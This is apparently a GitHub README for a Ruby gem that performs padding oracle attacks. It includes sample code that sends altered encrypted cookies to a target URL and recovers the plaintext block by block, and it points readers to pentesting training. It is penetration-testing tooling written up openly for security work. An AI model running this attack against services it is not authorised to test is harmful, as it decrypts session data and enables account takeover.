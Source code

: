 # Paddingoracle

This is a Rubyframework for exploiting padding oracle vulnerabilities based on this fantastic Python project:

https://github.com/mwielgoszewski/python-paddingoracle

## Build status
[![Build Status](https://travis-ci.org/technion/paddingoracle.svg?branch=master)](https://travis-ci.org/technion/paddingoracle)

## Usage


You will first need to extend the module with your own padding_oracle function. Example:

```
require 'httparty'
require 'base64'
require 'uri'

URL = 'http://google.com'
module Paddingoracle
  def decrypt_oracle(string)
    string = URI.escape(Base64.strict_encode64(string))
    response = HTTParty.get(URL, cookies: {auth: string})

    raise "Invalid padding" if response.code != 200
  end
end
```

You can then run the attack like this;
```
Blocksize = 8
COOKIE = 'vulnerable encrypted data'
bcookie = Base64.decode64(COOKIE)
plain = Paddingoracle::recover_all_blocks(bcookie, Blocksize)
puts plain
```

## Contributing

This product was written to solve a specific problem - I'm happy to investigate bugs but this type of codebase is not suited to new features or "how to use" requests.

If you are interested in this tool, we highly recommend the training at [PentesterLab](pentesterlab.com), which includes a vulnerable service relevant to this tool.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).


